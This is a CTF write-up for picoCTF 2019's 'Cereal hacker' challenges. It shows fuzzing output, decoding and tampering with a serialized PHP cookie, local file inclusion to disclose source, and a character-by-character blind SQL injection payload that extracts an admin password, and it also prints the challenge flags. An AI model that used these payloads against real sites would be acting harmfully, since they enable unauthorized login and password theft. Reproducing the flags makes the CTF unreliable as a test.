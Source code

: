 # Cereal hacker 1 - Points: 450
Challenge Description: 
`Login as admin. https://2019shell1.picoctf.com/problem/32256/ or http://2019shell1.picoctf.com:32256`

The first thoughts about this challenge was SQL injection or cookie manipulation. When we go to the given URL it was redirecting to the login page. So I have tried sqlmap but it wasn't SQLi. Url structure was suspicious so I tried lfi but it wasn't LFI too. About my other thought, we need to find valid credentials or maybe a page disclosure cookie name.

## Initial file scan:

    ********************************************************
    * Wfuzz 2.4 - The Web Fuzzer                           *
    ********************************************************
    
    Target: http://2019shell1.picoctf.com:32256/index.php?file=FUZZ
    Total requests: 4594
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    
    000000437:   200        26 L     71 W     1109 Ch     "admin"
    000001166:   200        7 L      18 W     501 Ch      "cookie"
    000001958:   200        7 L      18 W     501 Ch      "head"
    000002092:   200        7 L      18 W     501 Ch      "index"
    000002411:   200        35 L     82 W     1424 Ch     "login"
    
    Total time: 66.95597
    Processed Requests: 4594
    Filtered Requests: 4589
    Requests/sec.: 68.61225
We found the admin page and my thought was correct. It's cookie manipulation challenge

    <button onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
After this discovery, we need to figure out how it's working, how we can leverage it? With given hint, I tried all SQL injection strings and sqlmap but it didn't work. Thanks to my teammate who tried to log in as guest and it worked :)
Finally, we got user_info cookie as guest user.

    TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D
Its basic urlencoded base64 string. 

    O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}
Thanks to given hint we know how to leverage this object. Trying SQLi strings manually was boring and I wrote a script for it. You can find it named as `cereal.php`. Simply its getting  **[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)**'s Auth Bypass wordlist and using that payload on password field then encoding back to cookie and try to bypass the login.

    Flag : picoCTF{2eb6a9439bfa7cb1fc489b237de59dbf}

# Cereal hacker 2 - Points: 500
Challenge Description: 

    Get the admin's password. https://2019shell1.picoctf.com/problem/62195/ or http://2019shell1.picoctf.com:62195


After solving the first part of this challenge we know what to do but it will be harder :) So in this part, we need to get the admin's password as we did in the previous part it's gonna be object-injection but what makes it harder?
Our previous payload is not working but guest cookie is working great. So either it's not SQLi anymore or they are using prepared statements. Looks like we need to repeat all process from before. 
SQLi not working!
That's odd, seems like LFI is working :)

     _  __         _ _                     
    | |/ /__ _  __| (_)_ __ ___  _   _ ___ 
    | ' // _` |/ _` | | '_ ` _ \| | | / __|
    | . \ (_| | (_| | | | | | | | |_| \__ \
    |_|\_\__,_|\__,_|_|_| |_| |_|\__,_|___/
    
    v1.1 - LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)
    
    [20:25:53] [INFO] starting scanning the URL: https://2019shell1.picoctf.com/problem/62195/index.php?file=regular_user
    [20:25:53] [INFO] testing if URL have dynamic content ...                                                                                                                                                         
    [20:25:55] [INFO] URL dont have dynamic content                                                                                                                                                                   
    [20:25:55] [INFO] analyzing 'file' parameter ...                                                                                                                                                                  
    [20:25:55] [INFO] checking for common error messages                                                                                                                                                              
    [20:25:55] [INFO] using random url: https://2019shell1.picoctf.com/problem/62195/index.php?file=YyvfvO06U33sb8nmV3L                                                                                               
    [20:25:56] [WARNING] no errors found
    [20:25:56] [INFO] starting source disclosure test ...
    [20:25:57] [INFO] target probably vulnerable, hexdump: 
    
    0x00000000:  3c3f 7068 700a 7265 7175 6972 655f 6f6e  <?php.require_on
    0x00000010:  6365 2827 636f 6f6b 6965 2e70 6870 2729  ce('cookie.php')
    0x00000020:  3b0a 0a69 6628 6973 7365 7428 2470 6572  ;..if(isset($per
    0x00000030:  6d29 297b 0a3f 3e0a 090a 3c62 6f64 793e  m)){.?>...<body>
    0x00000040:  0a09 3c64 6976 2063 6c61 7373 3d22 636f  ..<div.class="co
    0x00000050:  6e74 6169 6e65 7222 3e0a 0909 3c64 6976  ntainer">...<div
    0x00000060:  2063 6c61 7373 3d22 726f 7722 3e0a 0909  .class="row">...
    0x00000070:  093c 6469 7620 636c 6173 733d 2263 6f6c  .<div.class="col

The first file I downloaded was [admin.php](https://github.com/enjloezz/picoctf_cereal/blob/master/admin.php) but there was nothing useful so the second one is [cookie.php](https://github.com/enjloezz/picoctf_cereal/blob/master/cookie.php).
Now we know why SQLi is not working. They are using prepared statements on permissions class. But siteuser class is not using. 
`$q = 'SELECT admin FROM pico_ch2.users WHERE admin = 1 AND username = \''.$this->username.'\' AND (password = \''.$this->password.'\');';` 
YAAAAAY ! We can exploit this query :) 
If you participate in picoCTF2017 you know this method. Its error-based SQL injection. The idea is if the return value of this query is true it will say `Find the admin's password!`. So we can exfiltrate the admin's password char by char. 
For example;

    admin' and 1=0 union all select admin from pico_ch2.users where admin=1 and substr(password,1,1)='a' -- 
   If we use this payload on username field if the first character of the admin's password is `a` it will print `Find the admin's password!`.  I wrote this [script](https://github.com/enjloezz/picoctf_cereal/blob/master/cereal2.php) to solve it.
   

    Flag : picoctf{c9f6ad462c6bb64a53c6e7a6452a6eb7}
PS: Substr is case insensitive.
